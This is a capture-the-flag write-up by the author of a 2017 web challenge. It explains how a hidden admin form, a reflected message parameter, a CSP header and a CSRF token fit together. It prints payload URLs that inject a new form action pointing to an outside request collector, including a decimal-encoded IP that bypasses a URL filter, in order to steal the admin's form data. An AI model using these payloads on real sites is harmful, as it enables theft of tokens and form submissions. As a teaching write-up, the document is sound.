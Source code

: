```yaml
---
layout: post
title: LocalHope
category: Bugs Bunny CTF 2017
---
```


Hello ALL , its me TnMch , it was really amazing event when i was helping geek guys to make this ctf cool and enjoy hacking :D

So , when i was building some task , I get the idea of this LastHope task that need a lot of skills 

So the task was first sign in/out page where you can create you account and login to the home page 


![image](https://user-images.githubusercontent.com/7364615/28757581-5ce51b22-7586-11e7-95b1-ba17d50a7e95.png)


Then when you login there is home and contact page with some fun picture :D

![image](https://user-images.githubusercontent.com/7364615/28757606-db10c26c-7586-11e7-9ee7-b5876fac757b.png)

![image](https://user-images.githubusercontent.com/7364615/28757620-1090f538-7587-11e7-8166-677c1262095c.png)



I puted this picture to give the player the chance to look more and dont focus only in this page 

So if you look in source code of home page you will see hidden form :p


![image](https://user-images.githubusercontent.com/7364615/28757628-40839124-7587-11e7-8679-90aa94441854.png)


so here where we start look deeper :p

its msg parameter which will echo anything in the home page 

![image](https://user-images.githubusercontent.com/7364615/28757646-9cb669ee-7587-11e7-8b3c-efdfb70fbffb.png)

but wait :D there is something i just added in header for smart guys :D 

![image](https://user-images.githubusercontent.com/7364615/28757649-c9fd1a38-7587-11e7-8849-494c308dee44.png)


CSP default-src 'self' so no chance to load any script into the home page ! :D did that means no chance for XSS!!

no wait lets check more always something is missing there 

using some cool staff we can get backup file /index.php.old


![image](https://user-images.githubusercontent.com/7364615/28757673-74b5655c-7588-11e7-87a9-fc52b1b54083.png)

So here we can understand that there is hidden form for admin only 

There is csrf token also , so first csp and then csrf LOOL , maybe many player will said so what we can do here its all over

 <input type="hidden" name="csrf_token" value="{$csrf_token}" />
 
 
 But there is always hope for you guys as the picture said :D
 
 our msg payload is just printed after the form balise :D so what we can do!!
 
 Did you know guys we can do alot of staff here :p
 
 Redirect submit form to our url and steal form data will not be something good :p 
 
 so if we send this url to admin :
 
 ```
 http://34.253.165.46/LocalHope/home.php?msg=</form><form method="GET" action="https://requestb.in/xxxxxx">
 ```
 
 The form will be changed to the new action , and here we can control over the form and get the data to our link 
 
 But as i am so bad :D i add some filtre here and i block any second url send with the link so no one can get data there XD
 
 But smart guys and good player will not stop here and can do more 
 
 Changing our ip url to decimal can do the job for us and bypass the filtre 
 
 exp :  34.253.165.46 will be  587048238
 
 So our link can be 
 ```
  http://34.253.165.46/LocalHope/home.php?msg=</form><form method="GET" action="http://587048238:8080">
```
And all filtre bypassed :D 

YUP , just we get the flag

![image](https://user-images.githubusercontent.com/7364615/28757773-6c1176dc-758a-11e7-91d7-aa17fdc5a8db.png)


FLAG : Bugs_Bunny{Oh_You_FFirst_Find_Me_And_Bypass_My_CSP_:((!!}


HOPE YOU GUYS ENJOYED MY WEB TASK :D 
see you next year


BTW it was soled by only 2 team : 

![image](https://user-images.githubusercontent.com/7364615/28776758-5e7edbe0-75f8-11e7-88e6-8756a269c6ec.png)

